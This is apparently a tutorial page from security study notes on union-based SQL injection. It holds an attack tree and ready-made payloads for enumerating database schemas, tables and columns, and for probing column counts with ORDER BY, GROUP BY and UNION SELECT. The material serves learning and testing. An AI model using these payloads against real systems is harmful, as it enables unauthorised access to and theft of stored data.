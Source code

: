 # Extracting data from the database

Union-based SQL injection is the most common of all the SQL injections. It uses the UNION statement to integrate two or 
more SELECT statements in a SQL query thereby obtaining data illegally from the database.

## Attack tree

```text
1 SQL injection to extract data from a database
    1.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    1.2 Find the amount of columns (AND)
    1.3 Find which columns accept queries (AND)
    1.4 Build an UNION SELECT SQL segment that will modify the WHERE clause and make it true
    1.5 Inject SQL statements into the column
    1.4 Post exploitation
```
## Example SQL segments

Database names:
```text
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```

Tables of a database:
```text

-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
```

Column names (with for example `table_name=accounts` or `table_name=users`, depending on tables found):
```text
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```

## Detect number of columns

To exploit Union Based vulnerabilities for SQLi, both queries must return the same number of columns.
There are two ways to find out the number of columns the initial request is returning.

### ORDER BY/GROUP BY

GROUP BY and ORDER BY have different functionality in SQL, but for this purpose both can be used: 
Keep incrementing the number until `False`.

```text
1' ORDER BY 1--+    # True
1' ORDER BY 2--+    # True
1' ORDER BY 3--+    # True
1' ORDER BY 4--+    # False - Query is only using 3 columns
```
```text
1' GROUP BY 1--+    # True
1' GROUP BY 2--+    # True
1' GROUP BY 3--+    # True
1' GROUP BY 4--+    # False - Query is only using 3 columns
```

    #-1' UNION SELECT 1,2,3--+    True

### UNION SELECT

Select more and more `null` values (`null` is valid in every case) until the query is correct:

```text
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

    #-1' UNION SELECT 1,2,3--+    True

## Resources

* [SQL ORDER BY clause](https://www.sqltutorial.org/sql-order-by/)
* [SQL GROUP BY clause](https://www.sqltutorial.org/sql-group-by/)

